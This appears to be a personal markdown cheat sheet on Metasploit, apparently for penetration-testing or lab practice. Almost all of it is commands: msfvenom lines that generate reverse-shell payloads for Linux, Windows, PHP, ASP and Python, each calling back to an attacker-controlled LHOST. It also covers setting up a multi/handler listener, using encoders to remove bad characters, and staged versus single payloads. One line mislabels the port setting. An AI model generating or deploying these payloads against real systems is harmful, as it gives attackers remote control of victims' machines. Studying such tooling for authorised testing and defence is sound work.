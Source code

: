 `msfvenom -p PAYLOAD_PATH LHOST=X.X.X.X -f exe(FORMAT) -o payload.exe(OUTPUT)`
`msfvenom -l payloads`
`msfvenom --list formats`

`-e ENCODING -b"\x00...BYTES_TO_FILTER"

#### Handlers
`use exploit/multi/handler` -> `set payload php/reverse_php` *(optional) omit for meterpreter shell*-\> `set lhost MY_IP` -\> `set lport MY_IP` -\> `run` *infers listener running*
#### Payload Examples
*must have set up listener or `exploit/multi/handler` module set up/listening for reverse shells above*
- Linux (elf): `msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f elf > rev_shell.elf`
- Windows: `msfvenom -p windows/meterpreter_reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f exe > rev_shell.exe`
- PHP: `msfvenom -p php/meterpreter\_reverse\_tcp LHOST=10.10.X.X LPORT=XXXX -f raw > rev_shell.php`
- ASP: `msfvenom -p windows/meterpreter/reverse\_tcp LHOST=10.10.X.X LPORT=XXXX -f asp > rev\_shell.asp`
- Python: `msfvenom -p cmd/unix/reverse_python LHOST=10.10.X.X LPORT=XXXX -f raw > rev_shell.py`
- `msfvenom -l payloads | grep meterpreter`, shows reverse and bind meterpreter shells on different platforms

#### Encoders
Often they will remove bad characters (like non-alphanumeric chars that are filtered by input fields). The payload will then be decoded at run time, which requires a prepended decoder stub.
*Encoders are not intended to bypass security, but may help*:  `msfvenom -l encoders`

*Consider: target OS, programs on the system, available connection types*

# Single vs. Staged
Stages: Downloaded by the stager after access is achieved on the target
`windows/shell_reverse_tcp` - denotes a single payload, injecting into memory and calling back automatically
`windows/x64/shell/reverse_tcp` - denotes a staged payload (stager) which injects, then must reach out for part 2 of the exploit (stage), which is hosted by the attacker usually by with `exploit/multi/handler` 